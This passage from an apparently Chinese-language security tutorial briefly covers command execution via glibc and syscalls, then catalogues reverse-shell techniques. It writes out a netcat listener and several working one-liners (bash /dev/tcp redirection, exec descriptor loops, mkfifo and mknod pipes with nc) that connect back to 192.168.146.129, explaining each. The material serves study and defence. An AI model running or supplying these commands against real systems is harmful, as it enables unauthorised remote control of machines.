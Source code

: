 ## 0x2：通过调用glibc api执行系统指令

本质上来说，Linux系统中的ring3应用程序启动时都会加载glibc.so库，glibc库中对Linux系统调用实现了封装。应用程序可以像使用C库那样，安全地使用系统调用。

## 0x3：通过直接调用系统调用执行指令

一般来说，应用程序可以通过glibc封装出的接口来使用系统调用，这样避免一些锁、传参检查等问题。但是技术上，应用程序完全也可以绕过glibc，直接发起syscall系统调用。

 

# 4. 反弹Shell攻击组合方式讨论

有了之前对命令执行和网络通信方式底层原理的讨论之后，这一章开始，我们将其进行横向和纵向的组合，讨论具体的反弹Shell姿势，并对每种姿势的底层原理进行分析。

## 0x1：“重定向符”+"/dev/tcp网络通信"Bash反弹Shell

这一类反弹shell的本质是把bash/zsh等进程的 0 1 2 输入输出重定向到远程socket，由socket中获取输入，重定向 标准输出（1）和错误输出（2）到socket。

```
attacker机器上执行：
nc -lvp 2333

victim 机器上执行：
bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
```

- “bash -i”：bash 是linux的一个比较常见的shell，除此之外还有 sh、zsh、等，他们之间有着细小差别
- “-i”：这个参数表示的是产生交互式的shell
- “/dev/tcp/ip/port”：/dev/tcp|udp/ip/port 这个文件可以将其看成一个设备（Linux下一切皆文件），对这个文件进行读写，就能实现与监听端口的服务器的socket通信
- ”>&“：混合输出（错误、正确输出都输出到一个地方），避免受害者机器上依然能看到我们在攻击者机器中执行的指令
- 0>&1：输入0是由 /dev/tcp/192.168.146.129/2333 输入的，也就是攻击机的输入，命令执行的结果1，会输出到 /dev/tcp/192.168.146.129/2333 上，这就形成了一个回路，实现了我们远程交互式shell 的功能
  - ![img](https://img2018.cnblogs.com/blog/532548/201912/532548-20191215091731268-1852930532.png) 

常见的变种命令行如下：

- 方式一：显式用“2>&1”来对错误输出进行重定向 
  - bash -i > /dev/tcp/192.168.146.129/2333 0>&1 2>&1
- 方式二：唯一区别就是 0>&1 和 0<&1 ，其实就是打开方式的不同，而对于这个文件描述符来讲并没有什么区别
  - bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
  - bash -i >& /dev/tcp/192.168.146.129/2333 0<&1
- 方式三：
  - bash -i >& /dev/tcp/192.168.146.129/2333 <&2
  - bash -i >& /dev/tcp/192.168.146.129/2333 0<&2
  - ![img](https://img2018.cnblogs.com/blog/532548/201912/532548-20191215093600154-402836042.png)

- 方式四：
  - exec 5<>/dev/tcp/192.168.146.129/2333;cat <&5|while read line;do $line >&5 2>&1;done
    - “exec 5<>/dev/tcp/192.168.146.129/2333”：这一句将文件描述符5重定向到了 /dev/tcp/192.168.146.129/2333 并且方式是读写方式，于是我们就能通过文件描述符对这个socket连接进行操作了
    - “command|while read line do .....done”：从文件中依次读取每一行，将其赋值给 line 变量（这里变量可以很多，以空格分隔），之后再在循环中对line进行操作。
    - ”>&5 2>&1“：使用管道符对攻击者机器上输入的命令依次执行，并将标准输出和标准错误输出都重定向到了文件描述符5，也就是攻击机上，实现交互式shell的功能
  - 0<&196;exec 196<>/dev/tcp/192.168.146.129/4444; sh <&196 >&196 2>&196
- 方式五：
  - rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.146.129 2333 >/tmp/f
    - “mkfifo”：首先创建了一个管道
    - “cat”：将管道里面的内容输出传递给/bin/sh
    - “/bin/sh -i 2>&1|nc .... > /tmp/f”：sh会执行管道里的命令并将标准输出和标准错误输出结果通过nc 传到该管道，由此形成了一个回路
  - mknod backpipe p; nc 192.168.146.129 2333 0<backpipe | /bin/bash 1>backpipe 2>backpipe
